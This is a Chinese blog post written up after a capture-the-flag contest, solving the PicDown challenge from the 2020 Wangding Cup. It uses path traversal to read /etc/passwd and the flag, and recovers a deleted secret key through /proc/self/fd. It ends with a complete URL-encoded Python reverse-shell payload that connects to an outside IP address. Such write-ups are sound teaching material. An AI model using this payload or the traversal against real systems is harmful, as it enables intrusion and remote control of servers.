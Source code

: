 ```yaml
---
title: '[网鼎杯 2020 白虎组]PicDown'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-09-13 19:36:40
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/68569469.jpg
---
```


![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/122.png)

首先试了一下ssrf但是并没有反应。
后面发现../etc/passwd 可读

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/130.png)

1、非预期

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/133.png)

../flag直接出flag。

2、正常操作
参考
http://www.xianxianlabs.com/blog/2020/06/05/381.html
https://blog.csdn.net/weixin_43610673/article/details/106196856
使用../proc/self/cmdline文件查看当前进行进程执行命令

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/141.png)

访问app.py

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/64562.jpg)

关键代码

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/147.png)

这里的SECRET_KEY是通过
SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)

这里读出来的，尝试读取这个/tmp/secret.txt文件，发现不能读取成功，因为利用 os.remove(SECRET_FILE)）删除。
但是，在 linux 系统中如果一个程序打开了一个文件没有关闭，即便从外部删除之后，在 /proc 这个进程的 pid 目录下的 fd 文件描述符目录下还是会有这个文件的 fd，通过这个我们即可得到被删除文件的内容。
尝试之后，在/proc/self/fd/3这里读取到SECRET_FILE

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/848358.jpg)

然后进行python反弹shell

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/53461.jpg)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200913194437.png)

python弹shell，其实网上都有现成的，但还是记录一下：
shell=python%20-c%20%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22174.0.233.124%22,8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
